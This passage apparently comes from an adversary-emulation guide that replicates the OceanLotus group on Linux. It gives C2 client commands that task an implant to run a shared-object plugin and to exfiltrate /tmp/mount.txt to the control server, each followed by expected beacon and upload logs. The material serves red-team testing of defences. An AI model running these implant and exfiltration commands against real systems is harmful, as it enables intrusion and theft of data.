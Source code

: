    ```
   [SUCCESS] 2023/08/24 13:26:12 Successfully set task output.
   ```
4. Execute the shared object using the `update` command
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_run_plugin", "arg":"update"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/24 13:26:12 Received beacon from existing implant 01020304.
   [INFO] 2023/08/24 13:26:12 Received task output for session:  01020304
   [Task] 2023/08/24 13:26:12 Shared Object Executed!
   [SUCCESS] 2023/08/24 13:26:12 Successfully set task output.
   ```
5. Exfil the `/tmp/mount.txt` file to the C2 server
   ```
   ./evalsC2client.py --set-task 01020304 '{"cmd":"Rota_steal_data", "arg": "/tmp/mount.txt"}'
   ```
   Expected Output:
   ```
   [INFO] 2023/08/24 13:29:04 Received beacon from existing implant 01020304.
   [SUCCESS] 2023/08/24 13:29:04 File uploaded: Successfully uploaded file to control server at './files/mount.txt'
   [INFO] 2023/08/24 13:29:04 No tasks available for UUID:  01020304
   ```
6. View the retrieved file on the C2 server
   ```
   cat ./files/mount.txt
   ```

### 🔮 Reference Code & Reporting

<details><summary>Click to expand table</summary></details>

### 🔬 Blue Team Notes

None

## Step 5 - Collection

### 📖 Overview

**Step five** emulates OceanLotus conducting collection of data using shared objects.

OceanLotus downloads and executes a shared object on the Linux host (pdf.so).
